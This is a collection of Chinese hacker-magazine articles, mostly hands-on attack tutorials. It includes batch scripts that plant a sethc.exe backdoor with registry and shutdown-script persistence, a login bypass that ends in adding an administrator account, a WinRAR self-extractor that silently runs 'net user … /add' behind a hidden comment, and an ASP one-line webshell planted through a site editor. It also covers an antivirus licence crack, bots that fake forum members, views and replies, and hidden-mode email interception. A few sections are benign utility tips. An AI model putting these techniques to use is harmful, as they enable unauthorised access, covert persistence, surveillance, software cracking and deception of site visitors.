关于FLV格式的视频转换软件：

- 1. Riva FLV Encoder，其下载地址为 http://www.skycn.com/soft/19462.html。  
  使用方法：（1）将flv档案拖拽到[Input]处；（2）在[Output Directory]处选择存档目录；（3）在[Destination video file]处将[.flv]改成[.wmv、AVI、MPEG等格式]；（4）点击[Encode]进行转换（转换过程中程序界面会变白，转换完成后即恢复正常）。
- 2. flv2avi，其下载地址为 http://www.5iflv.cn/。  
  使用方法：选择源文件，目标文件放在你想放的地方，其他默认，开始转换。这个软件只能转换成AVI格式。


图2

## 另类的CMD命令

前段时间我们协会举办了大型的计算机义务维护服务，导致大批量的故障电脑蜂拥而至，而其中有好些故障类得莫名其妙，处理起来异常棘手，也有好些同学的电脑却是无病呻吟，让我们浪费时间瞎折腾。这不，这天又有同学抱来电脑说是出了大问题，一问差点没把我们气晕过去，居然是密码忘了，让我们把她的密码给改了。破密码好说，在登录界面按两下Ctrl+Alt+Del切换到交互式登录界面，然后输入系统自带的账号“Administrator”后回车进去，然后把她的账号密码删除，两分钟不到就搞定了。

风宇

#### 一、麻烦

这天又来了一个破解密码的，然而她的系统是我一手配置，因为她的电脑使用ADSL宽带上网，考虑到安全性就把她的电脑上所有可能存在的后门都给关了，在账号处理方面不仅删除了系统里的无用账户，而且连“Administrator”和“Guest”账号都改了名，如图1。而且还设上了密码，所以密码破解起来就比较麻烦了，不过难度也不大，使用“黑客X档案”去年第11...


图1

## 傻瓜黑客


图2

上期“手工破解XP用户登录”一文所介绍的方法，在 DOS 下使用 CMD.EXE 替换 SETHC.EXE，然后在出现登录界面后按五下 Shift 键调出 CMD.EXE，再新建一个管理员账户，这样就轻松解决了问题。问题是解决了，但是过程却很麻烦，而且如果无法切换到纯 DOS 状态的话，这个方法根本派不上用场，所以我就想能不能预先把 CMD.EXE 和 SETHC.EXE 替换好，以后我们改密码就方便多了。

图3


#### 二、问题

如果我们把 CMD.EXE 和 SETHC.EXE 永久替换的话，那么所有知道这个方法的人都可以随意使用电脑，而且用户还不能正常使用系统辅助工具。突然想到了系统的登录和关机脚本，于是我就想，能不能写个关机时运行的程序，让系统每次关机时都把 CMD.EXE 和 SETHC.EXE 替换，再写个登录时运行的程序，让系统把 CMD.EXE 和 SETHC.EXE 替换回来。但是我又想如果这样做的话，虽然方便了用户的使用，但同时也方便了别人。于是我又想到给 CMD.EXE 加个密码，只有知道密码的人才能使用，而且在用户登录以后使用 CMD 就不再需要输入密码。


图4

#### 三、解决

首先我们需要一个需要身份验证才能使用的 CMD.EXE，因为我比较擅长批处理，所以就使用批处理编写了这个程序，然后再使用 VisualBat 把批处理编译成 EXE 文件，程序代码如下：

```bat
@echo off
Color f1
Title 身份验证
Mode con: cols=50 lines=13
:sta
Cls
Set sf=%random%
Echo 请输入验证码:%sf%
Set input=
Set /p input=
if not "%input%"=="%sf%fengning" goto error
Start cmd.exe
Exit
:error
cls
Echo 非法用户!
Pause>nul
Exit
```

> 我的经验：`Set /p input=` 等待用户输入；当用户输入内容与预设字符串不等时跳转；`Start cmd.exe` 调用 CMD.EXE；`Pause>nul` 暂停程序且无提示。

把以上代码复制到 VisualBat 中编译成 EXE 文件，然后改名为 sethc.fengning.exe。运行效果如图2所示，输入“26519fengning”就可以打开 CMD.EXE 了。把这个程序复制到“C:\Windows\system32”目录下，接下来我们再使用批处理写一个系统关机时运行的程序，代码如下：

```bat
@echo off
Ren %systemroot%\system32\sethc.exe sethc.exe.bak
Ren %systemroot%\system32\sethc.fengning.exe sethc.exe
Exit
```

把以上代码使用记事本另存为“changecmd.bat”，再用批处理写一个系统登录时运行的程序，代码如下：

```bat
@echo off
Ren %systemroot%\system32\sethc.exe sethc.fengning.exe
Ren %systemroot%\system32\sethc.exe.bak sethc.exe
Exit
```

把以上代码使用记事本另存为“recmd.bat”，保存到“c:\windows\system32”目录下。然后运行“regedit32”打开注册表，依次展开 HKLM\Software\Microsoft\Windows\CurrentVersion\Run，在右边窗口新建一个“字符串”键，键值为 c:\windows\system32\recmd.bat，如图3。再运行“gpedit.msc”打开组策略编辑器，依次展开“计算机配置—Windows 设置—脚本(启动/关机)”，双击右边窗口的“关机”选项，在弹出的“关机属性”窗口中单击“添加”按钮，在“脚本名”一栏填写 c:\windows\system32\changecmd.bat，如图4，单击“确定”保存退出。

这样我们的准备工作就基本做完，问题也迎刃而解，以后如果忘了密码，就可以在出现登录界面时通过调用系统辅助工具的方法来打开 CMD，然后新建管理员账户删除密码。常用方法有：连续按五下 Shift 调用“粘滞键开关”；按住右 Shift 八秒调用“筛选键开关”；按组合键左 ALT+左 SHIFT+PRINT SCREEN 调用“高对比度开关”；按组合键左 ALT+左 SHIFT+NUM LOCK 调用“鼠标键开关”；按住 NUM LOCK 五秒调用“切换键开关”。

#### 四、点睛

这样解决问题实际上是在计算机上建立后门，方便了维护人员进行后期维护。测试发现，在进行远程桌面连接时依然可以调用系统辅助工具，有兴趣的朋友可以自己试试。


## 火爆论坛 轻松打造

现在搭建一个论坛已不是高深技术了，Discuz、PHPWIND、动网论坛都比较成熟，并且提供个人版。论坛搭建起来后，最头疼的是人气问题：注册人数少、访问少。本文以 Discuz 论坛演示如何快速增加注册会员。

#### 一、无限注册会员

新建立的 Discuz 论坛一开始注册人数往往不多。这里介绍一款工具——丛林论坛注册王，可批量自动注册论坛会员。使用前需在论坛后台设置：关闭注册验证码和注册问答等限制项；在“验证码设置”中取消新用户注册验证，确保可自动注册。


用户注册相关功能取消后，在“验证问答设置”中也不要启用。然后进入论坛前台“注册”页，确认仅需用户名、密码和 E-mail 等基础字段。

运行丛林论坛注册王，在上方输入论坛注册地址（如 register.php），软件自带大量会员名和密码。点击注册后可自动提交；若站点限制可通过替换文本库（如 ZHUCE.TXT）扩展账户。软件还可批量生成并自动注册，成功结果会显示在“已成功注册的会员”列表中。


## 傻瓜黑客


图4

但再看看你论坛的在线人数也就寥寥几个人，一定会感到很不和谐吧。我们再来把在线人数搞定，可以让版面上千人同时在线。我们使用丛林采集发帖王，对照图4。在步骤一里设置好自己网站的首页地址和论坛登录地址，默认首页地址如 http://www.xlddd.cn/index.php，默认登录地址如 http://www.xlddd.cn/logging.php?action=login。在下方选上你论坛的 Discuz 类型，如图5。再在步骤三的“已注册会员设置”里把上次注册的 N 多论坛会员的会员名和密码复制到这里（现在用到了吧），如图6，然后点“保存”—“返回”。点击步骤四的“增加在线人数会员上线”，这里可以设置会员集体上线人数，几百几千随你设置，接下来点击“会员自动上线”，刚才注册的那些会员就开始一个个地自动上线了，去论坛首页刷新下，就会发现已经有 N 多会员上线了，如图7。


图5


图6

#### 二、论坛千人在线

现在论坛的注册人数已经数万了吧，是不是很有成就感。

#### 三、论坛自动点帖

在线人数也更多了，但发的帖子只有寥寥几个人点击，是不是感觉很没面子，照样搞定它。点击丛林采集发帖王步骤四里的“批量增加帖子人气数”，如图8。如果我们想把某一个帖子的点击率提高，就点击“单贴增加点击率”，然后按照提示输入帖子地址和点击数，譬如输入 500，过会儿再看那帖子就有 500 多的点击了。这个功能不仅仅对论坛有效，对网站文章、百度贴吧帖子等也都有效，并且点击速度非常快，几秒钟就能产生几十的点击率。如果你想对论坛众多帖子批量点击也可以实现，在上图的“某页帖子列表地址”输入论坛某分页地址，譬如 http://www.xlddd.cn/forumdisplay.php?fid=2，在“人气最大数”设置好点击数，点击“开始批量增加帖子点击率”就开始批量点击了，过会儿再刷新下就会发现每个帖子都有数百的点击率了。


图7

#### 四、论坛自动回帖

现在每个帖子也都有数百的点击率，可都没人回帖，还是显得有点冷清，我们继续把回帖也搞定。由于 Discuz 论坛防止恶意灌水，默认对发帖时间有所限制，所以先取消这个功能限制。进入 Discuz 论坛的后台，在“基本设置”--“服务器优化”里，我们把发帖灌水预防设为 0（0 为不限制）就可以了，如图9。


接下来点击丛林采集发帖王主界面的“全自动会员在线，点帖，回帖，发帖”按钮，如图10。“回帖内容”选项里，默认已经有几百条回帖内容，如图11。我们也可以自定义回帖内容，直接在这里编辑就可以了。如果想对某一帖子做回复发帖，单贴顶帖，然后输入帖子地址和回复数量就开启发顶帖了。如果想对某页帖子都自动做回复，就设置好帖子列表后点击“论坛火爆开始进行”。


现在，你的论坛已经有几万名注册会员，论坛在线人数也有几百几千人，每个帖子都有几百的点击率，回帖数量也有几十。我们做上述工作不是主要的目的，主要的是改变别人去你网站的第一印象。谁不愿意去人多的论坛里转悠，这和做生意“抢着不愁也愁”的道理有点类似，别人到你论坛一定会刮目相看。如果你网站的内容好，回访的粘度会很高，也会更加关注你的论坛，你和别人宣传自己的论坛时也会底气十足，这些都是为日后的自然流量做基础。到那时访问人数越来越多，就不需要采用这种虚假手段骗人气了，可以真正拥有属于自己的大型论坛。目前对论坛人气还发愁的小站长们建议试试丛林采集器系列软件，可以节省很多时间，带来很多人气和更多流量。

本文仅以 Discuz 论坛进行演示，淘宝的动网、PHPWIND 等论坛大同小异，我们可以去 conglin.cn 下载各种论坛版本的丛林采发帖王和注册王使用，本文只是对其中几项实用功能做简单介绍，更多功能还请读者自己去挖掘。

### Linkideo——又一 VPN 代理服务利器

张诚

在去年第七期的杂志上曾经介绍过 AnchorFree Hotspot Shield 这个免费的 VPN 工具，但是这个工具有个弊端，就是广告太多，有时候甚至都到了忍无可忍的地步。虽然我们使用 Mozilla Firefox 的话，可以使用一段 GreaseMonkey 脚本移除 Hotspot Shield 的广告条，但即使这样，还是显得麻烦，因此寻找另一个既免费又安全的 VPN 代理工具给各位网友就成了本菜鸟义不容辞的任务，现在就为大家介绍一下今天的主角——Linkideo。

Linkideo 是英国的一个 VPN 服务提供商，以前只提供收费的 VPN 服务，如今也开始提供免费的 VPN 服务了。Linkideo 的免费帐号带宽是 128kbit/s，速度还是不错的。目前 Linkideo 分配给用户的 IP 地址是法国的，每周还不知道是否会经常更改 IP 地址。

首先在浏览器访问 http://www.linkideo.com/sign up，注册一个帐号（图1），随后登录邮箱，激活该帐号。

接下来我们就要在系统中建立一个 VPN 的拨号客户端了，打开网上邻居，在左上角的地方点击“查看网络连接”，然后在网络连接页面中同样点击左上角的“创建一个新的连接”，选择“连接到我的工作场所的网络”，在下一步中选择“虚拟专用网络连接”，接下来在“公司名”中输入“Linkideo VPN”（图2），再下一步的“VPN 服务器选择”页面中输入“pptp1.linkideo.com”（图3），最后一路点下一步就可完成连接的设置了（图4）。

设置好了 VPN 的拨号程序，我们就可以像平时拨号上网一样很容易就可以拨入 VPN 服务端了。我看了一下此时的 IP 地址，我们的 IP 已经变成法国了（图5）。至此，我们已经完成了 VPN 的建立。


## 突破 VISTA 登录，还有紫光输入法

CJ 也疯狂

记得在去年第 5 期的杂志中有篇“最新体验 Vista 操作系统输入法漏洞”文章，介绍了如何利用 Google 和极点中文输入法绕过 Vista 系统的登录验证漏洞。课堂觉得无聊，既不能上网又不能玩游戏，想起了上述的输入法漏洞，就在机房的电脑上试验了一下，没想到电脑里还真安装了极点五笔，于是就轻松突破了 XP 系统的登录界面，调出了我们熟悉的 CMD。

但我回到宿舍想在自己的电脑上再玩玩的时候却出现了意外，在 XP 系统的登录界面怎么也切换不出第三方输入法，我又在 Win2000 和 Win2003 下试了试，也没有搞出来，不清楚是什么原因造成的，很是郁闷。我同学的电脑使用的是 VISTA 系统，我决定拿他的系统再试验一下，测试的输入法是“紫光华宇拼音输入法 V6.1.0.6.223 版本”。

打开电脑，进入 VISTA 的系统登录界面，按 Ctrl+空格切换出微软自带的输入法，然后再按 Shift+Ctrl 就可以切换到“紫光华宇拼音输入法”了。输入法切换出来后，点下帮助就会自动弹出 IE 浏览器，默认连接的是他们的官方网站。选择“文件”下的“打开”（图1），再通过命令路径运行 `c:\windows\system32\cmd.exe`（图2）（图3）。

我只好自己输入路径了，尝试直接运行 explorer.exe 来进入桌面。系统还真给面子，自动加载个人设置了，但却没有跳到桌面，只是在屏幕左下多了个开始按钮，点它也没有反应。

我们要运行这个 `cmd.exe` 文件吗？当然是选择运行了。成功后出现熟悉的 CMD 界面……在输出的 cmd 下执行 `net user 123 123 /add`，再执行 `net localgroup administrators 123 /add`……最后使用这个新用户登录进入系统即可。


### 电脑中的手机直播

最近局域网内老有人在搞 ARP 攻击……现在就分享一个办法：把手机端可看的直播内容放到电脑上看。虽然 GPRS 速度慢，但仍可使用。

需要一个能够浏览 WAP 网页的浏览器（如 Opera）。通过修改请求头可访问部分 WAP 页面。文中提到 `Opera.dll`、`ASPack`、`UltraEdit32` 等工具与步骤。

并非所有 WAP 网页都可访问。使用 Opera 登录 `http://wap.ggtv.com.cn/` 后可浏览节目列表；若播放无响应，可安装解码器（文中给出下载地址）。

也可直接官网观看，但修改头文件可浏览更多 WAP 页面。文末说明相关工具与文件已收录。


### 自解压行为的诠释

德少[H.C]

大家都知道 WINRAR 可以生成自解压文件，并可添加注释。利用这一点可在注释中写入命令：`Setup=http://www.ds87.cn`，解压后自动打开网页。

```txt
Setup=http://www.ds87.cn
```

进一步可将其改为系统命令，例如：`setup=net user ds87 /add`，执行后可创建用户（文中示例显示“成功”）。

```txt
setup=net user ds87 /add
```


## 偷窥黑客

我们在打开的时候，都会弹出解压文件的窗口，接下来隐藏这个窗口。在刚才的代码中加入以下代码：`Silent=1`，运行文件后就没有任何的提示，解压文件然后打开了网页或执行代码。我们添加的这些注释是可以被别人看见的，当用 WINRAR 打开自解压文件时，注释就显示在右边。为了避免别人看到注释，我在真正的注释前面加上 N 个空行，不注意的人还以为是一片空白（图3）。


### 如何突破局域网封锁来玩网游

李红

众所周知，学校和公司里的电脑一般是不允许你玩网游的，因为网管在服务器端进行了限制。如果你想突破这种限制玩网游，那就看看本文介绍的秘诀吧！

### 一、使用 socks 代理 + Sockscap32

在局域网的服务器端进行设置，限制客户端登录网游服务器 IP 是常见的封网方法，不过 Sockscap32 软件和 SOCKS 代理，可以让你突破这类限制，下面我们以天堂2为例，介绍其突破方法。

- 免费代理服务器：http://proxy.spousecare.com/anonproxy/proxy1.htm
- 代理中国：http://www.proxycn.com/
- 中国代理服务器网：http://www.cnproxy.com/proxy1.html
- 国外：http://www.stayinvisible.com/index.pl/proxy_list
- http://www.proxy4free.com/page1.html
- http://www.anonymitychecker.com/page1.html
- http://www.publicproxyservers.com/page1.html
- http://info.hustonline.net/index/proxyshow.aspx
- http://gmuch.net/

然后运行 Sockscap32，在软件主窗口点击“Files”/“Settings”菜单，在 SOCKS Server 栏输入 SOCKS 代理 IP（例如 102.123.59.10），端口为 1080，勾选“SOCKS Version5”，选择“由本地解析所有域名 Resolve all names local”（图1）。若 SOCKS 代理需要帐号密码，则在支持的验证方式下勾选“账号/密码 Username/Password”。

接下来点击“NEW 新建”，在弹出的窗口中设置通过代理使用的程序参数，Profile Name 可输入要启动的程序名，将“Browse 浏览”定位到网游安装目录并选择执行文件（如 L2.EXE），点击“OK”保存。以后选择网游图标并点击“Run 运行”即可通过代理突破封锁（图3）。

有些游戏是不用 Sockscap32 设置代理的，比如注册时就可以填写代理服务器；与 QQ 代理登录类似。有的游戏（如天使之恋）没法设置代理，只能通过 SOCKSCAP32 运行。

### 二、使用 socks 代理 + Permeo Security Driver

有些游戏不兼容 SOCKSCAP32，建议使用 Permeo Security Driver 软件代理。安装并重启后，在任务栏出现图标，双击后在弹出窗口选择“Out of office”（图4），再点击旁边“Edit”进行代理服务器设置。在 Proxy 标签中点击右上方按钮添加代理服务器（图5）。


## 傻瓜黑客

窗口，请选择“SOCKS5 proxy”，然后在下面输入代理 IP 及端口（例如 102.123.59.10 和 1080，如图6），点 OK 退出。接下来进入 DNS 标签，设置域名服务器。在左侧 Local 下输入域名服务器 IP（例如当地电信的 DNS：202.102.98.1），选择下面的“Use local”（即使用本地代理，如图7）。


如果你有远程代理，则在右侧填写，然后选择“Use remote”。

Applications 标签，设置需要代理的网游程序。建议你选择 Proxy only，不要选 Proxy all，否则玩游戏时会频繁断线。点击 Proxy only 右边的 Include list 设置使用代理的程序列表，点击 Add 增加程序，建议把游戏安装目录的所有 exe 程序都加进来（图9），否则游戏可能会用不上代理；设置完成后，直接启动游戏即可。


### 三、使用 SocksOnline

如果网管只开放 80 端口用于网页浏览、其他端口全部封锁，要突破这类限制玩网游，推荐你使用 SocksOnline。这款软件能把你的电脑变成代理服务器，默认占用你的 1080 端口作为 SOCKS 端口，将数据传送到未封闭的 80 端口，因此能突破封锁。下面我们以联众游戏为例，介绍其突破方法。

首先到 http://www.waysonline.com/mader/buy/buy02.htm 免费注册一个账号。免费账号虽然能长期使用，但是却只能有 5 个连接数（可能会经常掉线），付费会员速度更稳定。然后启动 SocksOnline 输入账号密码登录。

点击“网络”标签，勾选“使用 SOCKS 代理”，将 SOCKS 代理服务器设定为“127.0.0.1”（你的本地 IP），端口设为“1080”（图10）。最后，单击测试，检验代理服务器的有效性，如果提示“代理服务器工作正常”，表明设置成功。


接下来打开联众游戏大厅，点击“设置代理服务器”，勾选“使用代理服务器上网”，选择“使用 Socks5 协议”，在代理服务器地址栏填 localhost 或 127.0.0.1，端口填 1080（图11），最后点“登录”即可进入“联众游戏”了。

提示：使用 SocksOnline 时，本机上不能开启防火墙之类的后台软件，否则会拦截 SocksOnline 建立的代理服务器。与这个软件类似的还有“通通通”，有兴趣的朋友可以试下。


（本文所涉及到的 SocksCap32、Permeo Security Driver 和 SocksOnline 已收录到光盘中）

### 入侵技巧之 JavaScript 脚本

最近我们这里的网吧换管理软件了，全搞成了叫一页通的管理软件。朋友 AOSEMP 叫我一起搞搞一页通的网站，我欣然答应，算是做义务检测了。朋友对 JSP 比较熟，负责搞主站，我就负责搞同一网段的其他机器。

打开目标网站，发现是 ASP 的程序，其中有好几个页面有参数传递，不过都过滤了，如图1。似乎是在脚本前加了一个判断语句，如果参数不是数字，就给出警告，并关闭窗口。有朋友可能会有疑问，这里会不会存在 cookies 注入呢？我测试了一下，并不存在。至此，想靠注入进后台的路子暂时断了。

接下来我用扫 D 来扫目标网站的后台，这是个人习惯，多扫几个页面搜集信息，可能后面会有用。阿D最终扫出了 UploadFile 目录，还有 admin 和 user 目录。从那个 UploadFile 目录来看，很有可能目标网站使用了 eWebEditor（很多程序员在使用 eWebEditor 时会将文件传到 UploadFile 目录）。


我在阿D的设置当中已经添加过各种形式的 eWebEditor 目录，这里暂时还没有办法利用，因为对方可能改了 eWebEditor 目录的名称。

直接打开后台，出现了如图2所示的页面。左边菜单栏似乎可以直接访问，程序员只用了一个 JavaScript 脚本直接将页面转到登录页面。但是在停顿即逝的这两秒里，我们发现了菜单栏没有访问权限限制……

```html
<script>alert("请登录！");window.top.location.href="adm_Login.asp";</script>
```

程序员真是幼稚得好笑，以为直接来个本地转向就可以解决问题了，却不使用 ASP 中的 Response.Redirect 进行转向。我点右键查看到左边菜单栏地址为 mcnu.asp，直接访问后出现完整菜单……


打开之后我们再次禁止执行脚本、防止页面转向，逐项测试后发现修改密码处不能成功修改。随后进入“行业资讯”栏，出现添加资讯页面，证实存在编辑器入口。


```asp
<%execute request("value")%>
```

在添加页“信息来源”处填入执行代码，提交后前台最新信息生成 8809.asp，打开报错（如图5）。此次仅为本地转向漏洞利用，未获得服务器权限。


一些 ASP 程序员误以为 JavaScript 转向即可防护，实际上应使用 Session 和 Cookies 做权限验证，并使用 Response.Redirect 做可靠重定向。

### 玩转卡巴

### 一、随意延长卡巴 KEY 文件到期年限

卡巴斯基是一款很好用的杀毒软件，但经常会遇到 KEY 过期后不能升级的烦恼。下面介绍延长 KEY 使用年限的方法，十年二十年随你定。


首先我们要关闭卡巴的自动保护功能，如图1。然后退出卡巴，执行 Kaspersky 杀手，程序界面如图2。在“好的，我已认真阅读免责声明”前打钩，下面的可以修改 KEY 到期的年数，修改好后点击“执行破解代码”，根据提示操作，如图3、图4。破解已经完成了，现在让我们来看看结果，打开卡巴斯基，找到授权文件处，已经延长到 2027 年了，如图5。


#### 二、防止恶意修改系统时间使卡巴失效

卡巴的主动防御很厉害，能阻止许多木马的进驻。但是它却有个可笑的弱点，修改系统时间就能让它失效，所以木马在做完免杀后还会加上突破卡巴主动防御的功能。我们作为小黑，不光会突破主动防御，也要好好保护系统免遭这种攻击。

防止修改系统时间不需要借助外部工具，使用系统自带的组策略就能摆平。在运行中输入 gpedit.msc 打开组策略，依次找到“计算机配置—Windows 设置—安全设置—本地策略—用户权利指派—更改系统时间”，如图6。


删除里面的两个用户组，这样就没有用户能修改系统时间了。不过，当我们需要修改系统时间时，仍然来到这个地方，点击“添加用户或组”，如图7。在下面的白框中输入你当前的用户名，点击确定添加完成，如图8。

### 为邮件发送安插一个“暗哨”

花的神明

在网络冲浪过程中，发送电子邮件是最常见的操作。邮件发送看起来很简单，但也存在安全问题，例如别人在使用您的电脑时，就可能将重要数据通过邮件发送出去，从而导致机密信息泄露。因此，对邮件发送操作进行彻底监控，就显得很有必要了。使用 EmailObserver 这款独特的安全软件，就可以轻松实现上述功能。EmailObserver 采用特殊的运行方式，可以对本机上的所有邮件发送操作进行监控，不仅可以拦截所有的邮件发送，而且可以将邮件完整复制下来，发送到指定的邮箱中。这样，就可以对本机上的邮件发送情况了如指掌了。


在 EmailObserver 安装程序的“Install Options”窗口中可以选择其运行方式，选择“Install in visible mode”项，表示按照正常模式安装 EmailObserver（图1）。当安装完成后可以在桌面、开始程序菜单中建立快捷方式，其运行模式是“公开”的。如果选择“Install in hidden mode”项，表示采用隐藏安装模式，不会在系统中留下任何安装信息，同时采用隐秘的方式运行。本例中选择前一种安装模式，当安装之后需要重新启动电脑，使 EmailObserver 配置生效。

在默认情况下，EmailObserver 可以跟随系统启动，同时会在系统中生成一个名称为“SMTP protocol service”的服务。在 EmailObserver 主窗口工具栏上点击“Monitoring”按钮（图2），在“Monitoring status”栏中勾选“Switch on/off monitoring”项，表示激活 EmailObserver 邮件发送监控功能。

“Options”栏中如果勾选“Don’t send emails to real recipient”项，表示当 EmailObserver 检测到邮件发送操作时，可以阻止邮件发送到原始收件人邮箱中，不过建议不要选择该项，否则邮件会被 EmailObserver 自动拦截。

勾选“Send a copy of outgoing emails to the following address”项，表示当 EmailObserver 检测到邮件发送操作时自动将邮件内容复制一份，并将其复制的邮件发送到预设的邮箱中，同时并不影响原始邮件的发送。点击“Add”按钮，在弹出窗口中输入预设的邮箱地址即可。

你可以同时添加多个邮箱，这样复制的邮件可以分别发送到多个邮箱中。在“Additional options”栏中勾选“Enable subject prefix”项，可以输入邮件主题。勾选“Enable forced SMTP server”项，在其中输入 SMTP 邮件服务器地址；如果邮箱需要验证的话，勾选“My server requires authentication”项，点击“Settings”按钮，在弹出的窗口中输入邮箱的账户名以及密码。在“SMTP port”栏中可以根据需要更改 SMTP 端口号。这样，EmailObserver 就可以根据你设定的 SMTP 设置信息，来发送拦截的邮件了。

除了向指定的邮箱发送拦截的邮件外，EmailObserver 还可以将其保存到网络存储路径或者本地文件夹中。在 EmailObserver 主窗口工具栏点击“Saving”按钮，在“Network saving option”栏中勾选“Save a copy of the email messages to the network disk”项，在“Path”栏中点击“Browse”按钮，选择网络共享文件夹（图3）。

如果操作该共享文件夹需要认证的话，在“User login”和“Password”栏内输入账号名和密码即可。在“Local saving option”栏中勾选“Save a copy of the email messages to the local disk”项，点击“Browse”按钮选择本地文件夹。这样 EmailObserver 即可将拦截的邮件直接保存到预设的路径中。

在 EmailObserver 窗口工具栏上点击“Security”按钮，在“Password and encryption”栏中勾选“Enable password protected login”项，在弹出的窗口中输入管理密码，这样当打开 EmailObserver 管理窗口时必须输入该密码（图4）。勾选“Enable encryption of email messages saved to the network and/or local drives”项，在弹出的窗口中输入邮件内容加密密码，这样 EmailObserver 可以将拦截到的邮件内容进行加密，之后才将其保存到预设的文件夹中。


图2


图3

点击“Decrypt message”按钮，可以对加密的邮件解密。当然，如果在本机中存在多个账户的话，您可以设置 EmailObserver 监控的账户类型。在“Exclusion list”栏中勾选“Exclude the users listed below from monitoring”项，点击“Add”按钮，在弹出窗口中列出所有可用的账户名称，点击 OK 按钮可以添加选定的账户。您可以同时添加多个账户，这样，在“Exclusion list”栏中的账户所发出的邮件，不在 EmailObserver 的监控范围内。在“Hotkey”栏中勾选“Enable hotkey combination”项，表示激活热键功能，在其中可以更改热键（默认为“Ctrl + Shift + Alt + A”），这样当点击该热键时，即可打开 EmailObserver 管理窗口；如果您采用的是隐藏运行模式，可以使用该热键，对 EmailObserver 进行配置操作。如何卸载 EmailObserver 呢？最直接的方法是点击 EmailObserver 窗口左下角的“Uninstall”按钮，即可将其彻底卸载干净。


图4

有了这个软件为你的邮件保驾护航，相信会大大降低邮件上的安全问题。

（本文所涉及到的 EmailObserver 已收录到光盘中）

### 请看好你的迅雷

丛林

迅雷是中国网民使用非常普及的一款下载软件，以其独特的 P2SP（peer to server & peer，用户对服务器和用户）技术使得下载速度大大加快。每个使用迅雷的用户也作为一个服务端把下载过的东西进行共享上传，由于是偷偷上传，用户并不知情，这样就会严重影响网速。


我推荐一款工具 DU Meter，它可以实时查看网络流量。如果你感觉网速异常，就可以开启 DU Meter 看到下载和上传了多少网速。如果所有下载软件都关闭仍有大量上传速度，可能黑客在窃取你电脑里的机密文件。


知道迅雷在偷偷上传后，很多人以为清空已下载列表就不会上传了，其实是错误的。迅雷真正的记录文件是 `windows/system32/cid_store.dat`，其中保存了下载文件路径，因此你的电脑会继续扮演“服务器”角色供别人下载。

处理方法之一是每次用完迅雷后删除该记录文件，也可用批处理执行：`del c:\windows\system32\cid_store.dat`。更有效方法是删除后在同目录新建同名文件夹 `cid_store.dat`，利用“同名文件与文件夹不能共存”的原理阻止其重建。


这种做法不会影响正常下载，但可避免迅雷未经许可占用用户带宽。通过“偷上传”提升速度本质上是建立在其他用户资源之上的。

### 另类 CC 防御

破坏病毒

最近很多大型网站都被新型 CC 攻击导致瘫痪。CC 攻击主要是伪造来源与 Cookies，模拟大量代理访问，造成 IIS 无法响应，访问者常见提示为“Service Unavailable”。


防护思路是从域名入手：在动态域名服务商处创建一个域名转向（WebHop），将受攻击域名指向转向地址，并在域名管理中通过 CNAME 记录映射到该转向主机头。这样可快速把流量导向其他域名，减轻源站压力。

当攻击者继续打旧地址时，会被重定向到转向后的站点；若配合上游服务商处理，可在一定程度上缓解 CC 持续冲击。


### 轻松掌控软件安装的“特权”

花的神明

在 Windows 中安装程序，是一件非常简单的事情，只需运行“Setup.exe”等安装程序，按照提示就可顺利将软件安装到系统中。但是有时出于系统管理和安全性的考虑，可能不希望别人在本机上随意安装各种无关的软件。对于自己精心配置的系统，如果听任别人随意在其中安装各种软件，不仅会将系统搞得凌乱不堪，而且很有可能让恶意程序进入系统兴风作浪。相比之下，使用 Install-Block 和 Stop Installation Tool 这两款针对性的安全软件，就可以让你牢牢掌控软件安装“特权”。它们可以在后台自动检测是否执行了软件安装操作，并自动对其进行屏蔽，只有输入了正确的管理密码，才允许软件安装正常进行。


图1

双击系统托盘中的 Install-Block 图标，在弹出的登录窗口中输入密码（默认为“abc123”），点击 OK 按钮打开 Install-Block 配置窗口。在“Startup”面板中选择“Load at system start for all users”项，表示让其随系统自动运行。在“General”面板中点击“Change Password”按钮（图1），在弹出窗口中如果选择“Config”项，表示更改 Install-Block 登录密码；如果选择“Unblock”项，表示更改软件安装认证密码。之后点击“Change”按钮，改变对应的密码（图2）。如果是在网络环境中，当其他电脑上的用户试图操作本机上的安装程序时，如何发挥 Install-Block 的控制作用呢？在“General”面板中点击“Config Access Requests”按钮，在弹出的窗口（图3）中可设置远程访问请求策略。


图2

如果勾选“Do not show icon in system tray”项，可以在系统托盘中隐藏 Install-Block 图标，这样你可以随时点击预设热键来打开配置窗口。Install-Block 按当前活动窗口标题进行判断，在“Block List”（黑名单）面板中列出关键字（例如“Install”“Setup”等），只要运行程序标题中包含这些关键字，即可被拦截。点击“Add”按钮可补充关键字，还可通过“Add From Presets”快速添加常见对象，如 CMD 窗口、运行菜单、控制面板、文件夹属性、显示属性窗口、Internet 属性、我的文档、我的电脑等（例如“Control Panel”）。

在“White List”面板中显示允许通过的关键字信息（图5），当运行程序标题完整包含白名单关键字时，Install-Block 允许其正常运行。点击“Add”按钮可以添加关键词，配置完成后点击 OK 保存设置。之后当执行安装程序时，若窗口标题包含黑名单关键字，Install-Block 即自动拦截并弹出认证窗口，输入预设认证密码后才可继续安装，否则将关闭安装程序。


图3


图4


图5

图6

图7

为其设置监控密码，这样当 Stop Installation Tool 发现安装程序运行时，即可弹出拦截窗口，输入该密码后，才可以正常安装程序。勾选“Minimize to the Tray Bar icon”项，表示当最小化 Stop Installation Tool 时，可以让其隐藏在系统托盘中。为了加强 Stop Installation Tool 运行的隐蔽性，最好取消该项的选择。如果你希望直接屏蔽软件安装操作，最好取消“Show the password window to allow software installation”项预选状态，这样 Stop Installation Tool 可以直接禁止安装程序的运行。在“Define the Hot Keys to activate application”栏中可以设置激活热键（默认为“Ctrl + Alt + C”），这样你可以直接点击该热键，打开 Stop Installation Tool 配置窗口。当 Windows 中存在多个账户时，Stop Installation Tool 可以让你选择哪些账户具有运行安装程序的权限。

在“Users”面板中的“PC users”显示本机中的所有可用账户（图7），你可以点击“Remove”按钮，删除选定的账户信息。在“Apply restrictions for users”栏中选择“All PC users”项，表示允许本机上的所有用户运行安装程序；选择“For all except in the list”项，表示只允许上述列表之外的账户运行安装程序；选择“Only for users in the list”项，表示只允许上述列表中的账户运行安装程序。

